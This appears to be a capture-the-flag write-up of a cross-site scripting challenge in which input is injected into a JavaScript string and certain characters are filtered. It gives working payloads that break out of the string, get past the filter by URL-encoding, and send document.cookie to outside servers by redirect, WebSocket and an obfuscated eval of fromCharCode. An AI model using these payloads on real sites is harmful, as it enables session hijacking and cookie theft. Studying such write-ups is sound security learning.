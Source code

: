 ### Recon and Initial payload
In this challenge, certain characters and strings were blocked:
```
;
"
https:
http:
```
The payload is inserted within the following JavaScript context:
```js
<script>
var random = Math.random() * (99);
var number = 'payload-here';
.
.
.
</script>
```

Since I couldn't escape the input directly, I used the following payload:
```
test123'?alert(1):'1
```
Which resulting in 
```js
var number = 'test123'?alert(1):'1';
```
This structure allows me to execute JavaScript code conditionally.
### Bypass the filter
I can bypass the `https:` by encoding URL: `https%2b:`
- If I don’t encode the `+` character, it results in `https :`, which is invalid.
- Encoding it makes `+` part of the JavaScript code rather than the URL itself, effectively bypassing the filter. 

Final payload:
```
test123%27?document.location=`https%2b://my-server.com/?c=`.concat(document.cookie):%271
```
### Alternative Payloads
- using **window.location.href** or **window.top.location** or **document.URL.slice(0,7).concat(..**
- websocket
```
'
 new WebSocket('ws://thephilosopher.pro:1234/'.concat(document.cookie))
var test='
```
- toString().constructor
```
'-eval(toString().constructor.fromCharCode(120,61,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,109,121,101,110,100,112,111,105,110,116,46,99,111,109,47,103,101,116,46,112,104,112,63,100,97,116,97,61,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))//
```
